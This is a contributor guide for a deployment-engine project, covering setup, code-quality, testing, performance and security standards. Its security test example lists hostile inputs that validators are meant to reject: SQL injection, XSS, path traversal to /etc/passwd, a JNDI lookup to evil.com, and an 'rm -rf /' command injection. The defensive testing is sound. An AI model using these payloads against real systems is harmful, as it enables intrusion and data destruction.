

# 🤝 Contributing to Claude-Optimized Deployment Engine

Welcome to the CODE (Claude-Optimized Deployment Engine) contributor guide! This document provides comprehensive guidelines for contributing to our production-ready deployment engine with Circle of Experts and MCP integration.

## 📋 **Table of Contents**
1. [Ways to Contribute](#ways-to-contribute)
2. [Development Environment Setup](#development-environment-setup)
3. [Code Quality Standards](#code-quality-standards)
4. [Testing Requirements](#testing-requirements)
5. [Performance Standards](#performance-standards)
6. [Security Guidelines](#security-guidelines)
7. [Documentation Standards](#documentation-standards)
8. [Development Workflow](#development-workflow)
9. [Pull Request Process](#pull-request-process)
10. [Community Guidelines](#community-guidelines)

## 🌟 **Ways to Contribute**

### 🐛 **Bug Reports**
- Report issues through [GitHub Issues](https://github.com/louranicas/claude-optimized-deployment/issues)
- Use the bug report template
- Include:
  - Detailed reproduction steps
  - System information (OS, Python version, dependencies)
  - Error logs and stack traces
  - Expected vs actual behavior
  - Suggested fixes (if any)

### 💡 **Feature Requests**
- Propose new features via [GitHub Discussions](https://github.com/louranicas/claude-optimized-deployment/discussions)
- Include:
  - Clear use case and benefits
  - Implementation approach
  - Backward compatibility considerations
  - Performance implications
  - Security considerations

### 🔧 **Code Contributions**
- **Core Features**: Circle of Experts, MCP servers, deployment automation
- **Performance**: Memory optimization, caching, connection pooling
- **Security**: Authentication, RBAC, vulnerability fixes
- **Infrastructure**: Kubernetes, Docker, cloud integrations
- **Testing**: Unit tests, integration tests, performance benchmarks
- **Documentation**: API docs, tutorials, examples

### 📖 **Documentation**
- Technical documentation in `ai_docs/`
- API documentation in `api_docs/`
- Code examples and tutorials
- Architecture diagrams and flowcharts
- Migration guides for breaking changes

### 🧪 **Testing**
- Write comprehensive test suites
- Performance and load testing
- Security vulnerability testing
- Cross-platform compatibility testing
- Memory leak detection

## 🚀 **Getting Started**

### **Prerequisites**

```bash
# Core Requirements
- Git 2.40+ (for advanced features)
- Python 3.10+ (3.11 recommended)
- Rust 1.75+ with cargo
- Docker 24.0+ and Docker Compose 2.20+
- Node.js 18+ and npm 9+ (for documentation)
- PostgreSQL 15+ or SQLite 3.40+
- Redis 7.0+ (for caching)

# Hardware Requirements
- CPU: 4+ cores (8 recommended)
- RAM: 8GB minimum (16GB recommended)
- Storage: 20GB free space
- Network: Stable internet for dependencies
```

### **Fork and Clone**

```bash
# 1. Fork the repository on GitHub
# 2. Clone your fork with submodules
git clone --recursive https://github.com/YOUR_USERNAME/claude-optimized-deployment.git
cd claude-optimized-deployment

# 3. Add upstream remote
git remote add upstream https://github.com/louranicas/claude-optimized-deployment.git

# 4. Verify remotes
git remote -v

# 5. Configure git hooks
git config core.hooksPath .githooks
```

### **Development Environment Setup**

```bash
# 1. Create and activate virtual environment
python -m venv venv
source venv/bin/activate  # Linux/Mac
# or
venv\Scripts\activate     # Windows

# 2. Upgrade pip and install build tools
pip install --upgrade pip setuptools wheel

# 3. Install development dependencies
pip install -e ".[dev,mcp_testing,mcp_dev]"

# 4. Build Rust components
cd rust_core
cargo build --all-features
cargo test
cd ..

# 5. Install pre-commit hooks
pre-commit install
pre-commit run --all-files  # Verify hooks work

# 6. Set up environment variables
cp .env.example .env
# Edit .env with your configuration

# 7. Initialize database
alembic upgrade head
python scripts/seed_test_data.py

# 8. Start development services
docker-compose -f docker-compose.dev.yml up -d

# 9. Verify installation
python -m pytest tests/test_setup.py -v
python comprehensive_test_suite.py --quick

# 10. Run security audit
make security-check
```

### **IDE Configuration**

#### **VS Code**
```json
// .vscode/settings.json
{
  "python.linting.enabled": true,
  "python.linting.pylintEnabled": true,
  "python.linting.mypyEnabled": true,
  "python.formatting.provider": "black",
  "python.sortImports.provider": "isort",
  "editor.formatOnSave": true,
  "editor.codeActionsOnSave": {
    "source.organizeImports": true
  },
  "python.testing.pytestEnabled": true,
  "python.testing.unittestEnabled": false
}
```

#### **PyCharm**
- Enable Black formatter
- Configure isort for imports
- Set pytest as test runner
- Enable type checking with mypy

## 📋 **Development Workflow**

### **1. Create Feature Branch**

```bash
# Sync with upstream
git fetch upstream
git checkout master
git merge upstream/master

# Create feature branch following naming convention
git checkout -b feature/descriptive-feature-name
# or for bug fixes
git checkout -b fix/issue-123-brief-description
# or for performance improvements
git checkout -b perf/optimization-description
# or for documentation
git checkout -b docs/what-you-are-documenting
```

### **2. Development Process**

```bash
# 1. Write failing tests first (TDD approach)
pytest tests/test_new_feature.py -xvs

# 2. Implement feature
# ... write code ...

# 3. Run tests continuously
pytest tests/ -xvs --tb=short

# 4. Check code quality
make lint          # Run all linters
make type-check    # Type checking
make format        # Auto-format code

# 5. Run security checks
make security-check
bandit -r src/ -ll
safety check

# 6. Check performance impact
python scripts/analyze_memory_usage.py --profile
make rust-bench  # For Rust components

# 7. Update documentation
# - Update docstrings
# - Update API docs if needed
# - Add examples for new features
```

### **3. Testing Requirements**

#### **Test Coverage Requirements**
- **Minimum Coverage**: 80% overall
- **New Code Coverage**: 90%+ required
- **Critical Paths**: 95%+ (auth, security, core)

#### **Test Categories**

```bash
# Unit Tests (must be fast, < 0.1s per test)
pytest tests/unit/ -v --tb=short

# Integration Tests
pytest tests/integration/ -v

# Performance Tests
pytest tests/performance/ -v --benchmark-only

# Security Tests
pytest tests/security/ -v

# Memory Tests
pytest tests/memory/ -v --memray

# Full Test Suite
make test-all

# Coverage Report
pytest --cov=src --cov-report=html --cov-report=term
# View detailed report: open htmlcov/index.html
```

#### **Writing Tests**

```python
# tests/unit/test_example.py
import pytest
from unittest.mock import Mock, patch
from src.module import YourClass

class TestYourClass:
    """Test suite for YourClass."""
    
    @pytest.fixture
    def instance(self):
        """Create test instance."""
        return YourClass(config={"test": True})
    
    def test_initialization(self, instance):
        """Test proper initialization."""
        assert instance.config["test"] is True
        assert instance.is_ready is False
    
    @pytest.mark.asyncio
    async def test_async_operation(self, instance):
        """Test async operations."""
        result = await instance.async_method()
        assert result.status == "success"
    
    def test_error_handling(self, instance):
        """Test error scenarios."""
        with pytest.raises(ValueError, match="Invalid input"):
            instance.process(None)
    
    @pytest.mark.parametrize("input,expected", [
        (1, "one"),
        (2, "two"),
        (3, "three"),
    ])
    def test_multiple_inputs(self, instance, input, expected):
        """Test with multiple input scenarios."""
        assert instance.convert(input) == expected
    
    @patch("src.module.external_service")
    def test_with_mock(self, mock_service, instance):
        """Test with mocked dependencies."""
        mock_service.return_value = {"status": "ok"}
        result = instance.call_service()
        assert result["status"] == "ok"
        mock_service.assert_called_once()
```

## 🎯 **Code Quality Standards**

### **Python Code Standards**

#### **Style Guide**
- Follow PEP 8 with Black formatting
- Maximum line length: 88 characters (Black default)
- Use type hints for all functions
- Docstrings for all public functions/classes (Google style)

#### **Import Organization**
```python
# Standard library imports
import os
import sys
from typing import Dict, List, Optional

# Third-party imports
import aiohttp
import pydantic
from fastapi import FastAPI

# Local imports
from src.core.exceptions import ValidationError
from src.auth.rbac import check_permission
```

#### **Code Quality Tools**
```bash
# Format code with Black
black src/ tests/ --line-length 88

# Sort imports with isort
isort src/ tests/ --profile black

# Lint with Ruff (fast) and Pylint (comprehensive)
ruff check src/ tests/
pylint src/ --fail-under=8.0

# Type checking with mypy
mypy src/ --strict --ignore-missing-imports

# Security scanning
bandit -r src/ -f json -o bandit_report.json

# Complexity checking
radon cc src/ -s -a -nb
```

### **Rust Code Standards**

```bash
# Format code
cargo fmt --all -- --check

# Lint with clippy
cargo clippy --all-targets --all-features -- -D warnings

# Run tests
cargo test --all-features

# Check for security issues
cargo audit

# Generate docs
cargo doc --no-deps --open
```

### **Documentation Standards**

#### **Code Documentation**
```python
def process_deployment(
    config: DeploymentConfig,
    *,
    dry_run: bool = False,
    timeout: Optional[float] = None
) -> DeploymentResult:
    """Process a deployment configuration.
    
    This function validates the configuration, prepares resources,
    and executes the deployment strategy.
    
    Args:
        config: Deployment configuration object containing all parameters
        dry_run: If True, simulate deployment without making changes
        timeout: Maximum time in seconds to wait for deployment
    
    Returns:
        DeploymentResult containing status and deployment details
    
    Raises:
        ValidationError: If configuration is invalid
        DeploymentTimeout: If deployment exceeds timeout
        ResourceError: If required resources are unavailable
    
    Example:
        >>> config = DeploymentConfig(name="api", replicas=3)
        >>> result = process_deployment(config, dry_run=True)
        >>> print(result.status)
        'simulated'
    
    Note:
        This function uses async operations internally but provides
        a synchronous interface for compatibility.
    """
    # Implementation
```

#### **API Documentation**
```python
@router.post(
    "/deployments",
    response_model=DeploymentResponse,
    status_code=status.HTTP_201_CREATED,
    summary="Create a new deployment",
    description="Create and start a new deployment with the specified configuration",
    responses={
        201: {"description": "Deployment created successfully"},
        400: {"description": "Invalid configuration"},
        401: {"description": "Authentication required"},
        403: {"description": "Insufficient permissions"},
        409: {"description": "Deployment already exists"},
    }
)
async def create_deployment(
    config: DeploymentConfig,
    background_tasks: BackgroundTasks,
    current_user: User = Depends(get_current_user),
    db: AsyncSession = Depends(get_db)
) -> DeploymentResponse:
    """Create a new deployment.
    
    Requires 'deployment:create' permission.
    """
    # Implementation
```

### **6. Commit Standards**

#### **Commit Message Format**
```bash
# Format: <type>(<scope>): <subject>
#
# <body>
#
# <footer>

# Types:
# - feat: New feature
# - fix: Bug fix
# - perf: Performance improvement
# - docs: Documentation only
# - style: Code style changes (formatting)
# - refactor: Code refactoring
# - test: Adding or updating tests
# - chore: Maintenance tasks
# - security: Security improvements

# Examples:
git commit -m "feat(auth): implement JWT refresh tokens

- Add refresh token generation and validation
- Implement token rotation strategy
- Add rate limiting for refresh endpoints
- Include comprehensive test coverage (95%)

Closes #123"

git commit -m "fix(memory): resolve memory leak in connection pool

- Fix connection cleanup in error scenarios
- Add proper resource disposal in finally blocks
- Reduce memory usage by 40% under load

Fixes #456"

git commit -m "perf(api): optimize database query performance

- Add composite indexes for frequent queries
- Implement query result caching
- Reduce average response time from 150ms to 15ms

Benchmark results in PR description"
```

#### **Commit Best Practices**
```bash
# Make atomic commits
git add src/auth/tokens.py tests/test_tokens.py
git commit -m "feat(auth): add token validation"

# Use interactive rebase to clean up commits before PR
git rebase -i upstream/master

# Sign commits for security
git commit -S -m "security: update dependencies"

# Verify commit messages
pre-commit run --hook-stage commit-msg
```

### **7. Pre-Push Checklist**

```bash
# 1. Run full test suite
make test-all

# 2. Check test coverage
pytest --cov=src --cov-fail-under=80

# 3. Run security audit
make security-check

# 4. Check for dependency issues
make deps-audit

# 5. Verify documentation
make docs-check

# 6. Run performance benchmarks
make benchmark

# 7. Final quality check
make quality

# 8. Push to your fork
git push origin feature/your-feature-name
```

### **8. Create Pull Request**

#### **PR Title Format**
```
[Type] Brief description (max 50 chars)

Examples:
[Feature] Add natural language scaling commands
[Fix] Resolve memory leak in connection pool
[Perf] Optimize Circle of Experts consensus algorithm
[Security] Implement rate limiting for API endpoints
```

#### **PR Description Template**
```markdown
## Description
Brief summary of changes and motivation

## Type of Change
- [ ] Bug fix (non-breaking change that fixes an issue)
- [ ] New feature (non-breaking change that adds functionality)
- [ ] Breaking change (fix or feature that causes existing functionality to not work as expected)
- [ ] Performance improvement
- [ ] Security enhancement
- [ ] Documentation update

## Changes Made
- Bullet point list of specific changes
- Include technical details
- Reference any design decisions

## Testing
- [ ] Unit tests added/updated (coverage: X%)
- [ ] Integration tests added/updated
- [ ] Performance tests added/updated
- [ ] Security tests added/updated
- [ ] Manual testing completed

## Performance Impact
- Benchmark results (before/after)
- Memory usage analysis
- Any performance trade-offs

## Security Considerations
- Security implications of changes
- Threat model updates needed
- Security tests added

## Documentation
- [ ] Code comments updated
- [ ] API documentation updated
- [ ] User documentation updated
- [ ] Migration guide provided (if breaking change)

## Checklist
- [ ] My code follows the project style guidelines
- [ ] I have performed a self-review
- [ ] I have added tests that prove my fix/feature works
- [ ] New and existing tests pass locally
- [ ] I have updated documentation as needed
- [ ] I have added entries to CHANGELOG.md
- [ ] No security vulnerabilities introduced
- [ ] No performance regressions

## Related Issues
Closes #123
Relates to #456

## Screenshots (if applicable)
Add screenshots for UI changes

## Additional Notes
Any additional context or notes for reviewers
```

## 🔧 **Performance Standards**

### **Performance Requirements**

| Metric | Target | Critical Threshold |
|--------|--------|-------------------|
| API Response Time (P95) | < 100ms | < 200ms |
| API Response Time (P99) | < 200ms | < 500ms |
| Database Query Time (P95) | < 10ms | < 50ms |
| Memory Usage (per process) | < 500MB | < 1GB |
| CPU Usage (average) | < 60% | < 80% |
| Startup Time | < 5s | < 10s |
| Test Suite Execution | < 5min | < 10min |
| Memory Leak Rate | 0 MB/hour | < 10MB/hour |
| Connection Pool Efficiency | > 90% | > 80% |
| Cache Hit Rate | > 80% | > 70% |

### **Performance Optimization Guidelines**

#### **1. Memory Management**
```python
# Use object pooling for frequently created objects
from src.core.object_pool import ObjectPool

class ConnectionManager:
    def __init__(self):
        self.pool = ObjectPool(
            creator=self._create_connection,
            destroyer=self._destroy_connection,
            max_size=100,
            pre_create=10,
            max_idle_time=300
        )
    
    async def execute(self, query: str) -> Any:
        async with self.pool.acquire() as conn:
            return await conn.execute(query)
```

#### **2. Efficient Data Processing**
```python
# Use streaming for large datasets
from src.core.stream_processor import StreamProcessor

async def process_large_dataset(filepath: Path) -> None:
    processor = StreamProcessor(
        chunk_size=1024 * 1024,  # 1MB chunks
        max_memory=100 * 1024 * 1024  # 100MB limit
    )
    
    async for chunk in processor.process_file(filepath):
        # Process chunk without loading entire file
        await handle_chunk(chunk)
```

#### **3. Caching Strategy**
```python
# Multi-tier caching with TTL
from src.core.cache_config import CacheConfig
from src.core.lru_cache import lru_cache

# Configure cache tiers
cache_config = CacheConfig(
    memory_cache_size=1000,
    memory_cache_ttl=300,  # 5 minutes
    redis_cache_ttl=3600,  # 1 hour
    enable_compression=True,
    eviction_policy="lru"
)

# Apply caching decorator
@lru_cache(maxsize=1000, ttl=300)
async def get_expensive_data(key: str) -> Dict[str, Any]:
    # Expensive operation
    return await fetch_from_database(key)
```

#### **4. Connection Management**
```python
# Efficient connection pooling
from src.core.connections import ConnectionPool

pool = ConnectionPool(
    min_size=5,
    max_size=50,
    max_idle_time=300,
    connection_timeout=5.0,
    retry_policy=ExponentialBackoff(
        initial_delay=0.1,
        max_delay=5.0,
        max_retries=3
    ),
    health_check_interval=60
)
```

#### **5. Garbage Collection Optimization**
```python
# Configure GC for performance
from src.core.gc_optimization import optimize_gc, gc_disabled

# At application startup
optimize_gc(
    gen0_threshold=700,
    gen1_threshold=10,
    gen2_threshold=10,
    disable_during_critical=True
)

# For critical sections
async def critical_operation():
    async with gc_disabled():
        # Time-sensitive operations without GC interference
        await process_realtime_data()
```

### **Performance Testing**

```python
# benchmarks/test_performance.py
import pytest
from pytest_benchmark.fixture import BenchmarkFixture

def test_api_response_time(benchmark: BenchmarkFixture):
    """Test API response time meets SLA."""
    result = benchmark.pedantic(
        api_call,
        args=({"query": "test"},),
        iterations=1000,
        rounds=5
    )
    
    # Assert P95 < 100ms
    assert benchmark.stats["mean"] < 0.1
    assert benchmark.stats["stddev"] < 0.05

@pytest.mark.asyncio
async def test_concurrent_load():
    """Test system under concurrent load."""
    import asyncio
    
    async def make_request(i: int):
        start = time.time()
        await api_call({"id": i})
        return time.time() - start
    
    # Simulate 100 concurrent requests
    tasks = [make_request(i) for i in range(100)]
    response_times = await asyncio.gather(*tasks)
    
    # Check performance metrics
    p95 = sorted(response_times)[int(len(response_times) * 0.95)]
    assert p95 < 0.2  # 200ms P95 under load
```

## 🔒 **Security Guidelines**

### **Security Requirements**

All code must pass security scanning with zero high/critical vulnerabilities:

```bash
# Required security checks
bandit -r src/ -ll              # Python security
safety check                    # Dependency vulnerabilities
pip-audit                       # Package audit
semgrep --config=auto src/      # SAST scanning
trivy fs .                      # Container scanning
```

### **Secure Coding Practices**

#### **1. Input Validation**
```python
from src.core.validators import validate_input
from src.core.exceptions import ValidationError

def process_user_input(data: str) -> str:
    """Process user input with strict validation."""
    # Validate input format and content
    if not validate_input(data, pattern=r'^[a-zA-Z0-9_-]{1,64}$'):
        raise ValidationError("Invalid input format")
    
    # Sanitize for different contexts
    sql_safe = sanitize_for_sql(data)
    html_safe = sanitize_for_html(data)
    shell_safe = sanitize_for_shell(data)
    
    return sql_safe
```

#### **2. Authentication & Authorization**
```python
from src.auth.rbac import require_permission
from src.auth.tokens import validate_token

@router.post("/sensitive-operation")
@require_permission("admin:write")
async def sensitive_operation(
    data: SensitiveData,
    token: str = Depends(validate_token),
    user: User = Depends(get_current_user)
) -> Response:
    """Perform sensitive operation with proper auth."""
    # Additional authorization checks
    if not user.is_active:
        raise HTTPException(403, "Account inactive")
    
    # Audit log the operation
    await audit_log.record(
        user=user,
        action="sensitive_operation",
        data=data.dict(exclude_secrets=True)
    )
    
    # Perform operation
    return await execute_operation(data)
```

#### **3. Cryptography**
```python
from src.core.crypto import encrypt_field, hash_password
import secrets

# Use strong encryption
class SecureModel:
    # Encrypt sensitive fields at rest
    @property
    def ssn(self) -> str:
        return decrypt_field(self._ssn_encrypted)
    
    @ssn.setter
    def ssn(self, value: str) -> None:
        self._ssn_encrypted = encrypt_field(value)
    
    # Use proper password hashing
    def set_password(self, password: str) -> None:
        # Validate password strength
        if not is_strong_password(password):
            raise ValidationError("Password too weak")
        
        # Use bcrypt with cost factor 12
        self.password_hash = hash_password(password)
    
    # Generate secure tokens
    def generate_api_key(self) -> str:
        return secrets.token_urlsafe(32)
```

#### **4. SQL Injection Prevention**
```python
from sqlalchemy import text
from src.database.connection import get_db

# Always use parameterized queries
async def get_user_by_email(email: str) -> Optional[User]:
    async with get_db() as db:
        # Good: Parameterized query
        query = text("SELECT * FROM users WHERE email = :email")
        result = await db.execute(query, {"email": email})
        
        # Never do string concatenation
        # BAD: query = f"SELECT * FROM users WHERE email = '{email}'"
        
        return result.first()
```

#### **5. Path Traversal Prevention**
```python
from pathlib import Path
from src.core.path_validation import validate_safe_path

def read_user_file(filename: str) -> bytes:
    """Read file with path traversal protection."""
    # Validate filename
    if not validate_safe_path(filename):
        raise SecurityError("Invalid filename")
    
    # Resolve to absolute path and check it's within allowed directory
    base_dir = Path("/app/user_files").resolve()
    file_path = (base_dir / filename).resolve()
    
    # Ensure resolved path is within base directory
    if not str(file_path).startswith(str(base_dir)):
        raise SecurityError("Path traversal detected")
    
    return file_path.read_bytes()
```

#### **6. Secret Management**
```python
import os
from src.core.secrets import SecretManager

# Never hardcode secrets
class Config:
    # Good: Load from environment
    DATABASE_URL = os.getenv("DATABASE_URL")
    API_KEY = os.getenv("API_KEY")
    
    # Better: Use secret manager
    secret_manager = SecretManager()
    DB_PASSWORD = secret_manager.get_secret("db_password")
    
    # Validate secrets are present
    @classmethod
    def validate(cls):
        required = ["DATABASE_URL", "API_KEY"]
        missing = [s for s in required if not getattr(cls, s)]
        if missing:
            raise ConfigError(f"Missing secrets: {missing}")
```

### **Security Review Checklist**

- [ ] No hardcoded secrets or credentials
- [ ] All user inputs validated and sanitized
- [ ] SQL queries use parameterization
- [ ] Authentication required for sensitive operations
- [ ] Authorization checks for resource access
- [ ] Sensitive data encrypted at rest and in transit
- [ ] Security headers configured (CORS, CSP, etc.)
- [ ] Rate limiting implemented
- [ ] Audit logging for security events
- [ ] Error messages don't leak sensitive info
- [ ] Dependencies scanned for vulnerabilities
- [ ] Container images scanned
- [ ] OWASP Top 10 vulnerabilities addressed

## 📚 **Documentation Standards**

### **Documentation Requirements**

1. **Code Documentation**
   - All public functions/classes must have docstrings
   - Complex algorithms must have inline comments
   - Type hints required for all function signatures
   - Examples in docstrings for public APIs

2. **API Documentation**
   - OpenAPI/Swagger specs for all endpoints
   - Request/response examples
   - Error codes and meanings
   - Rate limits and authentication requirements

3. **Architecture Documentation**
   - System design documents in `ai_docs/`
   - Architecture decision records (ADRs)
   - Sequence diagrams for complex flows
   - Component interaction diagrams

4. **User Documentation**
   - Getting started guides
   - Configuration references
   - Troubleshooting guides
   - Migration guides for breaking changes

### **Documentation Template**

```markdown
# Component Name

## Overview
Brief description of what this component does and why it exists.

## Architecture


## Installation
```bash
pip install component-name
```

## Configuration
| Parameter | Type | Required | Default | Description |
|-----------|------|----------|---------|-------------|
| `api_key` | string | Yes | - | API authentication key |
| `timeout` | int | No | 30 | Request timeout in seconds |
| `retry_count` | int | No | 3 | Number of retry attempts |

## Usage

### Basic Example
```python
from component import Client

client = Client(api_key="your-key")
result = client.process(data)
print(result)
```

### Advanced Example
```python
# With custom configuration
client = Client(
    api_key="your-key",
    timeout=60,
    retry_count=5
)

# Async usage
async with client as c:
    result = await c.process_async(data)
```

## API Reference

### `process(data: Dict[str, Any]) -> Result`
Process data and return results.

**Parameters:**
- `data`: Input data dictionary

**Returns:**
- `Result`: Processing result object

**Raises:**
- `ValidationError`: If data is invalid
- `ProcessingError`: If processing fails

## Error Handling

| Error Code | Description | Solution |
|------------|-------------|----------|
| `E001` | Invalid input format | Check input schema |
| `E002` | Authentication failed | Verify API key |
| `E003` | Rate limit exceeded | Implement backoff |

## Performance Considerations
- Batch operations for better throughput
- Connection pooling enabled by default
- Caching available for repeated queries

## Troubleshooting

### Common Issues

**Issue: Connection timeout**
```python
# Solution: Increase timeout
client = Client(timeout=120)
```

**Issue: Memory usage high**
```python
# Solution: Use streaming mode
for chunk in client.stream_process(large_data):
    handle_chunk(chunk)
```

## Migration Guide

### Migrating from v1.x to v2.x
1. Update import statements
2. Change configuration format
3. Update error handling

See [detailed migration guide](./docs/migration-v2.md)

## Contributing
See [CONTRIBUTING.md](../CONTRIBUTING.md)

## License
MIT License - see [LICENSE](../LICENSE)
```

## 🧪 **Testing Requirements**

### **Test Coverage Standards**

| Component Type | Minimum Coverage | Target Coverage |
|----------------|-----------------|------------------|
| Core Modules | 85% | 95% |
| Security Modules | 90% | 98% |
| API Endpoints | 85% | 95% |
| Utilities | 80% | 90% |
| New Code | 90% | 95% |

### **Test Categories and Examples**

#### **1. Unit Tests**
```python
# tests/unit/test_auth.py
import pytest
from datetime import datetime, timedelta
from src.auth.tokens import create_token, validate_token
from src.auth.exceptions import TokenExpiredError

class TestTokenManagement:
    """Test JWT token management."""
    
    def test_create_token_success(self):
        """Test successful token creation."""
        user_id = "user123"
        token = create_token(user_id, expires_in=3600)
        
        assert token is not None
        assert len(token) > 50
        assert "." in token  # JWT format
    
    def test_validate_token_success(self):
        """Test successful token validation."""
        user_id = "user123"
        token = create_token(user_id)
        
        payload = validate_token(token)
        assert payload["user_id"] == user_id
        assert "exp" in payload
    
    def test_expired_token_rejection(self):
        """Test that expired tokens are rejected."""
        token = create_token("user123", expires_in=-1)
        
        with pytest.raises(TokenExpiredError):
            validate_token(token)
    
    @pytest.mark.parametrize("invalid_token", [
        "",
        "invalid",
        "a.b.c",
        "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.invalid.signature"
    ])
    def test_invalid_token_formats(self, invalid_token):
        """Test various invalid token formats."""
        with pytest.raises(ValueError):
            validate_token(invalid_token)
```

#### **2. Integration Tests**
```python
# tests/integration/test_deployment_flow.py
import pytest
from httpx import AsyncClient
from src.main import app
from src.database.test_utils import TestDatabase

@pytest.mark.asyncio
class TestDeploymentFlow:
    """Test complete deployment workflow."""
    
    async def test_full_deployment_cycle(self, test_db: TestDatabase):
        """Test create, deploy, and delete cycle."""
        async with AsyncClient(app=app, base_url="http://test") as client:
            # 1. Create deployment
            create_response = await client.post(
                "/api/v1/deployments",
                json={
                    "name": "test-app",
                    "image": "nginx:latest",
                    "replicas": 3
                },
                headers={"Authorization": f"Bearer {test_token}"}
            )
            assert create_response.status_code == 201
            deployment_id = create_response.json()["id"]
            
            # 2. Wait for deployment
            for _ in range(30):  # 30 second timeout
                status_response = await client.get(
                    f"/api/v1/deployments/{deployment_id}"
                )
                if status_response.json()["status"] == "running":
                    break
                await asyncio.sleep(1)
            else:
                pytest.fail("Deployment did not start in time")
            
            # 3. Scale deployment
            scale_response = await client.patch(
                f"/api/v1/deployments/{deployment_id}/scale",
                json={"replicas": 5}
            )
            assert scale_response.status_code == 200
            
            # 4. Delete deployment
            delete_response = await client.delete(
                f"/api/v1/deployments/{deployment_id}"
            )
            assert delete_response.status_code == 204
```

#### **3. Performance Tests**
```python
# tests/performance/test_api_performance.py
import pytest
import asyncio
import time
from statistics import mean, stdev, quantiles

@pytest.mark.performance
class TestAPIPerformance:
    """Test API performance metrics."""
    
    @pytest.mark.asyncio
    async def test_concurrent_requests(self, api_client):
        """Test API under concurrent load."""
        async def make_request(client, i):
            start = time.time()
            response = await client.get("/api/v1/health")
            duration = time.time() - start
            return duration, response.status_code
        
        # Make 100 concurrent requests
        tasks = [
            make_request(api_client, i) 
            for i in range(100)
        ]
        results = await asyncio.gather(*tasks)
        
        # Analyze results
        durations = [r[0] for r in results]
        status_codes = [r[1] for r in results]
        
        # All requests should succeed
        assert all(code == 200 for code in status_codes)
        
        # Calculate percentiles
        p50, p95, p99 = quantiles(durations, n=100)[49], \
                        quantiles(durations, n=100)[94], \
                        quantiles(durations, n=100)[98]
        
        # Assert performance SLAs
        assert p50 < 0.05  # 50ms P50
        assert p95 < 0.1   # 100ms P95
        assert p99 < 0.2   # 200ms P99
        
        # Check standard deviation
        assert stdev(durations) < 0.05  # Consistent performance
```

#### **4. Security Tests**
```python
# tests/security/test_injection_prevention.py
import pytest
from src.api.validators import validate_deployment_name
from src.database.queries import get_deployment_by_name

@pytest.mark.security
class TestInjectionPrevention:
    """Test injection attack prevention."""
    
    @pytest.mark.parametrize("malicious_input", [
        "'; DROP TABLE deployments; --",
        "' OR '1'='1",
        "<script>alert('xss')</script>",
        "../../../etc/passwd",
        "${jndi:ldap://evil.com/a}",
        "\x00null\x00byte",
        "||calc||",
        "; cat /etc/passwd"
    ])
    def test_sql_injection_prevention(self, malicious_input):
        """Test SQL injection prevention."""
        # Validation should reject malicious input
        with pytest.raises(ValueError):
            validate_deployment_name(malicious_input)
    
    @pytest.mark.asyncio
    async def test_command_injection_prevention(self):
        """Test command injection prevention."""
        from src.utils.shell import safe_run_command
        
        # Should sanitize dangerous commands
        result = await safe_run_command(
            "echo", 
            "test; rm -rf /"  # Malicious argument
        )
        
        # Command should be sanitized
        assert "rm" not in result.stdout
        assert result.returncode == 0
```

#### **5. Memory Tests**
```python
# tests/memory/test_memory_leaks.py
import pytest
import gc
import tracemalloc
from memory_profiler import profile

@pytest.mark.memory
class TestMemoryManagement:
    """Test for memory leaks and efficiency."""
    
    def test_connection_pool_memory(self):
        """Test connection pool doesn't leak memory."""
        tracemalloc.start()
        
        # Create and destroy many connections
        for _ in range(1000):
            pool = ConnectionPool(max_size=10)
            connections = [pool.acquire() for _ in range(10)]
            for conn in connections:
                pool.release(conn)
            pool.close()
            
        # Force garbage collection
        gc.collect()
        
        # Check memory usage
        current, peak = tracemalloc.get_traced_memory()
        tracemalloc.stop()
        
        # Memory usage should be reasonable
        assert current < 10 * 1024 * 1024  # Less than 10MB
    
    @profile
    def test_large_data_processing(self):
        """Test memory efficiency with large datasets."""
        # Process large dataset in chunks
        processor = StreamProcessor(chunk_size=1024)
        
        # Process 1GB of data
        for chunk in processor.process_large_data(size_gb=1):
            # Should not accumulate memory
            process_chunk(chunk)
            
        # Memory should be released after processing
        assert get_memory_usage() < 100 * 1024 * 1024  # Less than 100MB
```

### **Test Fixtures and Utilities**

```python
# tests/conftest.py
import pytest
import asyncio
from typing import AsyncGenerator
from httpx import AsyncClient
from src.main import app
from src.database.test_utils import TestDatabase
from src.auth.test_utils import create_test_token

@pytest.fixture(scope="session")
def event_loop():
    """Create event loop for async tests."""
    loop = asyncio.get_event_loop_policy().new_event_loop()
    yield loop
    loop.close()

@pytest.fixture
async def test_db() -> AsyncGenerator[TestDatabase, None]:
    """Provide test database."""
    db = TestDatabase()
    await db.initialize()
    yield db
    await db.cleanup()

@pytest.fixture
async def api_client(test_db) -> AsyncGenerator[AsyncClient, None]:
    """Provide test API client."""
    async with AsyncClient(app=app, base_url="http://test") as client:
        yield client

@pytest.fixture
def test_token() -> str:
    """Provide test authentication token."""
    return create_test_token(
        user_id="test_user",
        permissions=["read", "write", "admin"]
    )

@pytest.fixture
def mock_external_service(monkeypatch):
    """Mock external service calls."""
    async def mock_call(*args, **kwargs):
        return {"status": "success", "data": "mocked"}
    
    monkeypatch.setattr(
        "src.services.external.call_api",
        mock_call
    )
```

## 🚀 **Pull Request Process**

### **Before Creating a PR**

1. **Ensure all tests pass**
   ```bash
   make test-all
   ```

2. **Check code quality**
   ```bash
   make quality
   ```

3. **Verify security**
   ```bash
   make security-check
   ```

4. **Update documentation**
   - Add/update docstrings
   - Update API docs if needed
   - Add migration guide for breaking changes

5. **Add tests**
   - Unit tests for new functionality
   - Integration tests for workflows
   - Performance tests if applicable

### **PR Review Process**

1. **Automated Checks**
   - CI/CD pipeline must pass
   - Code coverage must meet thresholds
   - Security scans must pass
   - Performance benchmarks must not regress

2. **Code Review Requirements**
   - At least 2 approvals required
   - Security-sensitive changes need security team review
   - Performance-critical changes need performance team review
   - Breaking changes need architecture team review

3. **Review Criteria**
   - Code quality and readability
   - Test coverage and quality
   - Performance implications
   - Security considerations
   - Documentation completeness
